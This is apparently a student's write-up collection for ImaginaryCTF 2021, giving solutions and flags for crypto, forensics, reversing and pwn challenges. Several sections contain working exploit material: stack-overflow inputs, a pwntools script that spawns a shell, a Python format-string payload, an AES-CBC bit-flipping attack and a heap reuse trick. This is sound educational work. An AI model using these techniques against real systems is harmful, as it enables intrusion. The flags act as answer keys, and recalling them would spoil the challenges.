


# ImaginaryCTF 2021

ImaginaryCTF 2021, from July 23 4PM - July 27 4PM (UTC).

## Overview

Writeups to challenges are linked here, arranged by points.

Challenge | Category | Points | Solves | Comments
--------- | -------- | ------ | ------ | --------
[Discord](#discord-misc-15-pts)	| Misc | 15 | 739
[Sanity Check](#sanity-check-misc-15-pts) | Misc | 15 | 996
[Chicken Caesar Salad](#chicken-caesar-salad-crypto-50-pts) | Crypto | 50 | 929 | caesar cipher
[Hidden](#hidden-forensics-50-pts) | Forensics | 50 | 740
[Roos World](Roos%20World) | Web | 50 | 853 | Exploration into JSFuck
[Stackoverflow](#stackoverflow-pwn-50-pts) | Pwn | 50 | 413 | stack overflow
[Fake Canary](#fake-canary-pwn-100-pts) | Pwn | 100 | 207 | stack canary
[Flip Flops](#flip-flops-crypto-100-pts) | Crypto | 100 | 160 | AES-CBC bit flipping
[Formatting](#formatting-misc-100-pts) | Misc | 100 | 302 | format string
[Spelling Test](#spelling-test-misc-100-pts) | Misc | 100 | 303
[Stings](#stings-reversing-100-pts) | Reversing | 100 | 291 
[Vacation](#vacation-forensics-100-pts) | Forensics | 100 | 339 | OSINT
[Lines](#lines-crypto-150-pts) | Crypto | 150 | 128 | modular arithmetic
[Normal](#normal-reversing-150-pts) | Reversing | 150 | 109 | verilog
[The First Fit](#the-first-fit-pwn-150-pts) | Pwn | 150 | 139 | heap
[Jumprope](Jumprope) | Reversing | 200 | 47 | ROP
[No Thoughts, Head Empty](#no-thoughts-head-empty-reversing-200-pts) | Reversing | 200 | 101
[linonophobia](Linonophobia) | Pwn | 200 | 70 | ret2libc
[Speedrun](Speedrun) | Pwn | 200 | 61 | automation and ret2libc
[Abnormal](Abnormal) | Reversing | 250 | 28 | verilog
[It's Not Pwn, I Swear!](It's%20Not%20Pwn%2C%20I%20Swear!) | Reversing | 250 | 34 | not pwn

## Afterthoughts

This was my first legitimate attempt at a CTF. My first ever attempt was the [Real World CTF](https://ctftime.org/event/1198/) this January. Suffice to say, it did not go well - it was even before I took the intro to computer systems course, and I knew nothing about binary, linking, loading, shellcoding, etc. The only thing I knew was a little bit of x86 assembly from [open security training](https://opensecuritytraining.info/IntroX86.html) (which was a great lecture, by the way; they got a [new website](https://ost2.fyi/), go check it out!), and looking back, it was a really difficult CTF, so it was obviously a failure. I only solved the checkin one, and even that took a long time.

Since then, I did finish the ICS course and also went through half of [pwn.college](pwn.college), and while I'm still very much a newb, I was very happy to be able to actually solve some of the challenges in pwn and reversing. I still have 0 experience on anything else, so I still have a very long way to go, but it was very fun nonetheless. Part of it is that this ctf was pretty beginner-friendly, so that helped.

Long story short, if you're doing ctf for the first time and don't really know much, learn from my mistake and try to do an easier ctf. But also I guess feeling very powerless in the Real World CTF kind of motivated me to try to learn more, so it helped in some way? Yeah. I don't know. Anyway, thanks Imaginary CTF for a great one, looking forward to next year too!

## Writeups

## Discord (Misc, 15 pts)

### Description

Join our Discord server! We can provide support for challenge issues there, AND we have practice challenges everyday when this CTF isn't running. Join at https://discord.gg/ctf .

### Attachment

`https://discord.gg/ctf`

### Solution

Join discord; flag is at the `#imaginaryctf-2021` channel. Free 15 points.

### Flag
```
ictf{d41ly_ch4lls_0n_d1sc0rd_AND_4_ctf?_epic}
```

## Sanity Check (Misc, 15 pts)

### Description

Welcome to ImaginaryCTF! All flags are written in flag format `ictf{.*}` unless otherwise stated. Have fun and enjoy the challenges!

### Attachment

`ictf{w3lc0m3_t0_1m@g1nary_c7f_2021!}`

### Solution

Submit the flag. Another free 15 points.

### Flag
```
ictf{w3lc0m3_t0_1m@g1nary_c7f_2021!}
```

## Chicken Caesar Salad (Crypto, 50 pts)

### Description

I remember the good old days when Caesar ciphers were easy…

### Attachment

[`chicken-caesar-salad.txt`](_Attachments/chicken-caesar-salad.txt)

### Solution

Go to any caesar cipher decoder (dcode.fr, for instance) and try all 25 combinations; the one with `ictf` as the first four letters is the flag.

### Flag
```
ictf{wHen_dID_cAEseR_cIphERs_gEt_sO_hARd}
```

## Hidden (Forensics, 50 pts)

### Description

Oh no, someone hid my flag behind a giant red block! Please help me retrieve it!!

### Attachment

[`challenge.psd`](_Attachments/challenge.psd)

### Solution

`.psd` is a photoshop document file. Go to any editor (photopea.com, for instance) and open challenge.psd, then drag the red block to reveal the flag.

Or do `strings challenge.psd | grep ictf` to get the flag.

### Flag
```
ictf{wut_how_do_you_see_this}
```

## stackoverflow (Pwn, 50 pts)

### Description

Welcome to Stack Overflow! Get answers to all your programming questions right here!

### Attachment

[`stackoverflow`](_Attachments/stackoverflow)

### Solution

Classic stack overflow; let's look at the disassembly.


It reads via `scanf` to the buffer at `rbp-0x30`; there's also a `DEBUG MODE` line after some check, which is `cmp qword [var_8h], 0x69637466; jne 0x85f`. So it compares whatever's at `rbp-0x8` to `0x69637466`, or "ictf" backwords. Then our objective is to write 0x28 bytes of anything and then write "ftci".

```
$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
$ cat flag.txt
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```

### Flag
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```

## Fake Canary (Pwn, 100 pts)

### Description

Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!

### Attachment

[`fake_canary`](_Attachments/fake_canary)

### Solution

Checksec: 
```
baba@baba:~$ checksec fake_canary
[*] '/home/baba/fake_canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, no canaries. Let's look into the binary:


There's `main`, and there's also a `win` function at `0x400725` that calls `system('/bin/sh')`. It also uses `gets` into `rbp-0x30`, so it should be a simple buffer overflow. The "canary" used here at `rbp-0x8` is just `0xdeadbeef` by inspection (haha, "industry grade" canaries).

``` py
import pwn

p = pwn.process('./ctf/ictf2021/fake_canary')
p.recv(4096)
p.send(b'A'*0x28 + pwn.p64(0xdeadbeef) + b'A'*8 + pwn.p64(0x400725))
p.interactive()
```

spawns a shell.

### Comments

It kept segfaulting while trying to reproduce the solution - while correctly getting to `system('/bin/sh')`, it crashed at an instruction `movaps`. Apparently this instruction has to be aligned to [16-byte boundary](https://c9x.me/x86/html/file_module_x86_id_180.html), and surely enough `$rsp` was not aligned to 16 bytes. Adding a `ret` gadget before returning to `win` solved that issue. I wonder how they avoided it in the actual challenge...

### Flag
```
ictf{m4ke_y0ur_canaries_r4ndom_f492b211}
```

## Flip Flops (Crypto, 100 pts)

### Description

Yesterday, Roo bought some new flip flops. Let's see how good at flopping you are.

### Attachment

[`flop.py`](_Attachments/flop.py)

### Solution

Our input is encrypted and decrypted via AES-CBC. I don't know much about encryption, but reading through the [Wikipedia page](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_block_chaining_(CBC)), the encryption and decryption process involves xor'ing the previous block (16 bytes) of ciphertext with the next block of plaintext/decrypted text. Since the key and IV are initialized before the `for` loop, we have 3 chances to encrypt/decrypt with the same key and IV. Our objective is to recover 'gimmeflag' from the ciphertext without directly encrypting 'gimmeflag'.

The title and the description talks about flip flops. Might be something related to bit flipping. Googling "aes cbc bit flipping", the [first result](https://resources.infosecinstitute.com/topic/cbc-byte-flipping-attack-101-approach/) talks about byte flipping attack for aes-cbc. Basically, the decryption process is:
1. Put the current block of ciphertext through decryption with the provided key;
2. then xor the result with the previous block of ciphertext, to recover the plaintext.



So, we need 2 blocks: the "previous block" that will be used to flip a bit (of course, this block will not be recovered as the ciphertext changed), and the "next block" that contains a string that's 1 bit off from the string 'gimmeflag'. We can use the string `AAAAAAAAAAAAAAAAAAAAAAAgimmeflaf`. Since `f` is `0x66` and `g` is `0x67`, we can just flip the bottom-most bit of the first block of the ciphertext to recover `AAAAAAAAAAAAAAAAAAAAAAAgimmeflag`.

```
$ nc chal.imaginaryctf.org 42011

                                        ,,~~~~~~,,..
                             ...., ,'~             |
                             \    V                /
                              \  /                 /
                              ;####>     @@@@@     )
                              ##;,      @@@@@@@    )
                           .##/  ~>      @@@@@   .   .
                          ###''#>              '      '
      .:::::::.      ..###/ #>               '         '
     //////))))----~~ ## #}                '            '
   ///////))))))                          '             '
  ///////)))))))\                        '              '
 //////)))))))))))                                      '
 |////)))))))))))))____________________________________).
|||||||||||||||||||||||||||||||||||||||||||||||||||||||||

(yeah they're not flip flops but close enough)


Send me a string that when decrypted contains 'gimmeflag'.
1. Encrypt
2. Check
> 1
Enter your plaintext (in hex): 414141414141414141414141414141414141414141414167696d6d65666c6166
4a02863ece4062105d83eed02314fc6fa55f72a0c5c9cc1f978bccdcd113ae806ba849a330044a25495db6bb8d3b4817
Send me a string that when decrypted contains 'gimmeflag'.
1. Encrypt
2. Check
> 2
Enter ciphertext (in hex): 4a02863ece4062105d83eed02314fc6ea55f72a0c5c9cc1f978bccdcd113ae806ba849a330044a25495db6bb8d3b4817
b"\x01\xcfwg\xe0\xd1B\xa6'\xea\xc7\xf4\xa0\xed\xe3AAAAAAAAgimmeflag\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10"
ictf{fl1p_fl0p_b1ts_fl1pped_b6731f96}
Send me a string that when decrypted contains 'gimmeflag'.
1. Encrypt
2. Check
>
```
(the last bit of the 16th byte `0x6f` is flipped to `0x6e`)

### Comments

It seems that the encryption appends the IV at the end of the ciphertext; the ciphertext can be fully recovered without the last block.

### Flag
```
ictf{fl1p_fl0p_b1ts_fl1pped_b6731f96}
```

## Formatting (Misc, 100 pts)

### Description

Wait, I thought format strings were only in C???

### Attachment

[`stonks.py`](_Attachments/stonks.py)

### Solution

As suggested by the name of the challenge and the description, the python code has a format string to our input: `inp.format(a=stonkgenerator())`. Python functions have a `__globals__` attribute ([documentation](https://docs.python.org/3/reference/datamodel.html#the-standard-type-hierarchy)), which is a dictionary holding the global variables of the function. Since `stonkgenerator` is a class with `__init__` and `__str__` methods, we can use those to get access to the global variable `flag`.

```
$ nc chal.imaginaryctf.org 42014

                                         88
            ,d                           88
            88                           88
,adPPYba, MM88MMM ,adPPYba,  8b,dPPYba,  88   ,d8  ,adPPYba,
I8[    ""   88   a8"     "8a 88P'   `"8a 88 ,a8"   I8[    ""
 `"Y8ba,    88   8b       d8 88       88 8888[      `"Y8ba,
aa    ]8I   88,  "8a,   ,a8" 88       88 88`"Yba,  aa    ]8I
`"YbbdP"'   "Y888 `"YbbdP"'  88       88 88   `Y8a `"YbbdP"'

Welcome to Stonks as a Service!
Enter any input, and we'll say it back to you with any '{a}' replaced with 'stonks'! Try it out!
> {a.__init__.__globals__[flag]}
ictf{c4r3rul_w1th_f0rmat_str1ngs_4a2bd219}

```

### Flag

```
ictf{c4r3rul_w1th_f0rmat_str1ngs_4a2bd219}
```

## Spelling Test (Misc, 100 pts)

### Description

I made a spelling test for you, but with a twist. There are several words in words.txt that are misspelled by one letter only. Find the misspelled words, fix them, and find the letter that I changed. Put the changed letters together, and you get the flag. Make sure to insert the "{}" into the flag where it meets the format.

NOTE: the words are spelled in American English

### Attachment

[`words.txt`](_Attachments/words.txt)

### Solution

Using `PyEnchant` for the dictionary, get a list of words with typos and a list of suggested fix; `diff` the two lists with `difflib`.

`words.py`:
``` python
import enchant
import difflib

d = enchant.Dict("en_US")
typo = []
sugg = []
possible = ""

with open("words.txt", "r") as f:
    line = f.readline().strip()
    while line:
        if not d.check(line) and not d.check(line.capitalize()):
            typo.append(line)
            suggestion = d.suggest(line)
            sugg.append(suggestion[0])
            for i,s in enumerate(difflib.ndiff(line,suggestion[0])):
                if s[0] == '-': possible = possible+s[-1]
        line = f.readline().strip()

print(typo)
print(sugg)
print(possible)
```
```
$ python3 words.py
['convirgence', 'translatcr', 'addretsing', 'javascript', 'approachfs', 'namespace', 'subscrybers', 'endangored', 'modufications', 'rehapilitation', 'camputers', 'mastercard', 'classisal', 'munisipality', 'engineereng', 'requiremend', 'generatint', 'recruitmeht', 'yorkshere', 'applicasions', 'instalping', 'changelog', 'broadcesting', 'attractlve', 'enquiries', 'obituarles', 'bibliogriphy', 'avainable', 'wordpress', 'instructiongl', 'strengthenint', 'discherge', 'playstation', 'subscriptisn', 'copyrightet']
['convergence', 'translator', 'addressing', 'java script', 'approaches', 'name space', 'subscribers', 'endangered', 'modifications', 'rehabilitation', 'computers', 'master card', 'classical', 'municipality', 'engineering', 'requirement', 'generating', 'recruitment', 'worksheet', 'applications', 'installing', 'change log', 'broadcasting', 'attractive', 'inquiries', 'obituaries', 'bibliography', 'available', 'word press', 'instructional', 'strengthening', 'discharge', 'play station', 'subscription', 'copyrighted']
ictfyoupassedthyrspelelingtest
```

Something seems off. Looking at the list, it seems that 'yorkshere' became 'worksheet', and 'enquiries' was incorrectly flagged as a typo; 'yorkshere' should become 'yorkshire', so in place of 'yr' should be an 'e'. An extra 'e' between the 'l's should not be there as well. Fixing those issues, we get: `ictfyoupassedthespellingtest`

### Flag
```
ictf{youpassedthespellingtest}
```

## Stings (Reversing, 100 pts)

### Description

Enter the beehive. Don't get stung.

(Note: the password/flag is in the format ictf{.*})

### Attachment

[`stings`](_Attachments/stings)

### Solution

There's only one function, `main`.


There's some string on the stack from `rbp-0x1110`, and our input is stored at `rbp-0x1210`; the loop compares our input to the stored string, character by character, but it subtracts 1 from the character of the stored string before comparing. Doing so gives us the flag.

### Flag
```
ictf{str1ngs_4r3nt_h1dd3n_17b21a69}'
```

## Vacation (Forensics, 100 pts)

### Description

Roo's cousin was on vacation, but he forgot to tell us where he went! But he posted this image on his social media. Could you track down his location? Submit your answer as ictf{latitude_longitude}, with both rounded to 3 decimal places. Example: ictf{-12.345_42.424} (Note: only the image is needed for this challenge, as this is an OSINT challenge.)

### Attachment

[`image.jpg`](_Attachments/image.jpg)

### Solution


Zooming in, we see a few things:
1. On the left, in the flag with 'National Treasure', there is a logo that has the year 1965 and 'City of South Lake Tahoe'.
2. On the right, there are a few shops, including a Rock Shop, Tahoe Hemp Company, and Sugar Pine Bakery.

Searching 'city of south lake tahoe sugar pine bakery' in google maps, we do indeed get a location with the rock shop next to it. Right-clicking on the road near it, we get the coordinates: 38.947, -119.961.



### Flag
```
ictf{38.947_-119.961}
```

## Lines (Crypto, 150 pts)

### Description

Try to crack my unbreakable™ encryption! I based it off of the Diffie-Helman key exchange!

### Attachments

[`lines.py`](_Attachments/lines.py)  
[`out.txt`](_Attachments/out.txt)

### Solution

The `encrypt` function is just `s * msg % p`; since we know the original message for the `:roocursion:` message, we can find out `s` by taking the modular multiplicative inverse, and then use that `s` to figure out the flag.

```py
from Crypto.Util.number import bytes_to_long
from binascii import unhexlify

p = 82820875767540480278499859101602250644399117699549694231796720388646919033627
msg = bytes_to_long(b":roocursion:")
encrypted_msg = 15673067813634207159976639166112349879086089811595176161282638541391245739514
encrypted_flag = 26128737736971786465707543446495988011066430691718096828312365072463804029545

inv_msg = pow(msg, -1, p)       # 54864004291246804401341290931185162835786921440081671370403905989696416063004
s = encrypted_msg*inv_msg % p   # 47724061801079554597466585626373440191004658414760256322329566876897497386054
inv_s = pow(s, -1, p)           # 3282051094907229565273573872951361003221021290446275324072340426107730632901
flag = inv_s*encrypted_flag % p # 0x696374667b6d30645f34723174685f6674775f31633936333234317d

print(unhexlify(hex(flag)[2:]))
```

### Flag
```
ictf{m0d_4r1th_ftw_1c963241}
```

## Normal (Reversing, 150 pts)

### Description

Norse senor snorts spores, abhors non-nors, adores s'mores, and snores.

### Attachments

[`normal.v`](_Attachments/normal.v)

[`Makefile`](_Attachments/Makefile)

### Solution

Looking into the given [verilog](https://en.wikipedia.org/wiki/Verilog#:~:text=Verilog%2C%20standardized%20as%20IEEE%201364,register%2Dtransfer%20level%20of%20abstraction.&text=Since%20then%2C%20Verilog%20is%20officially%20part%20of%20the%20SystemVerilog%20language.) file, the main function has a `flag` variable that's 256 bits long, and a `wrong` variable that is also 256 bits long. `normal flagchecker(wrong, flag)` is called, and if `wrong` is 0, it will be display "Correct!". So we need to make `wrong` 0.

Looking at the module `normal`, `wrong` is `out` and the `flag` is `in`; the module is only done with `nor` operations. Let's draw a diagram:


and a truth table:


We see that `w5` is `c1 ^ in`, and `out` is `~(w5 ^ c2)`, which is `~(in ^ c1 ^ c2)`; we want `out` to be `0`. So `in = (~0) ^ c1 ^ c2`.

``` py
In : import binascii

In : binascii.unhexlify(hex(c1^c2^0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff)[2:])
Out: b'ictf{A11_ha!1_th3_n3w_n0rm_n0r!}'
```

### Flag
```
ictf{A11_ha!1_th3_n3w_n0rm_n0r!}
```

## The First Fit (Pwn, 150 pts)

### Description

Let's get started with a simple heap exploit!

### Attachments

[`the_first_fit`](_Attachments/the_first_fit)  
[`the_first_fit.c`](_Attachments/the_first_fit.c)

### Solution

Looking at the source code, `a` is already malloc'd, and we have 4 options:
    1. Malloc; malloc 128 bytes, and assign it to a or b
    2. Free; free a or b
    3. Fill a; put input into wherever `a` is pointing
    4. System b; call `system(b)`

The name of the challenge suggests that the way blocks are allocated is first-fit, and since it this code always allocates 128 bytes, it will be the case that freeing `a` and malloc-ing `b` will make `a` and `b` point to the same address on the heap; then really, the third option becomes fill b, so we can basically do `system` on anything.

```
$ nc chal.imaginaryctf.org 42003
a is at 0x564dc92312a0
b is at 0x7fff41f3bba0
1: Malloc
2: Free
3: Fill a
4: System b
> 2
What do I free?
(1) a
(2) b
>> 1
a is at 0x564dc92312a0
b is at 0x7fff41f3bba0
1: Malloc
2: Free
3: Fill a
4: System b
> 1
What do I malloc?
(1) a
(2) b
>> 2
a is at 0x564dc92312a0
b is at 0x564dc92312a0
1: Malloc
2: Free
3: Fill a
4: System b
> 3
>> /bin/sh
a is at 0x564dc92312a0
b is at 0x564dc92312a0
1: Malloc
2: Free
3: Fill a
4: System b
> 4
$
```

and voila, we have the shell.

### Flag
```
ictf{w3lc0me_t0_h34p_24bd59b0}
```

## No Thoughts, Head Empty (Reversing, 200 pts)

### Description

When I was making Roolang, of course I took a look at the mother of all esolangs! So, have some bf code. Run it here (https://copy.sh/brainfuck/) with 32 bit cells and dynamic memory enabled. Run the program to get the flag, and then some.

### Attachment

[`flag_min.bf`](_Attachments/flag_min.bf)

### Solution

If we run the given code at the linked website, we get:

<!-- {% raw % } -->
```
iccttttffffffff{{{{{{{{{{{{{{{{00000000000000000000000000000000nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn...
```
<!-- {% endraw % } -->

which goes on and on - looks like it's multiplying the number of characters repeated by 2. Eventually it runs out of memory before printing out everything.

In `brainfuck`, `.` outputs data; looking at the javascript equivalent, the data pointer is at somewhere around 37 when the print loop starts. So, it would suffice to delete the print loop, then move the data pointer to 0, then loop through to print only once per each character.

original:
```
16. ++++++++++>-]-[<------------------->+]>>++++++[<++++++>-]--[<-->+]+<[>[->+>++<<]
17. >>[-<<+>>]<[[<]<[<]>.[>]>[>]<-][<]<[<]<[<]>[-]>[>]>-]               ^
// comment:                                             ^               | print loop starts here
                                   print loop ends here |
```

fixed:
```
++++++++++>-]-[<------------------->+]>>++++++[<++++++>-]--[<-->+]+<<<<<<<<<<<<<
<<<<<<<<<<<<<<<<<<<<<[.>]
```

Result is the flag.

### Flag
```
ictf{0n3_ch@r@ct3r_0f_d1f3r3nce}
```
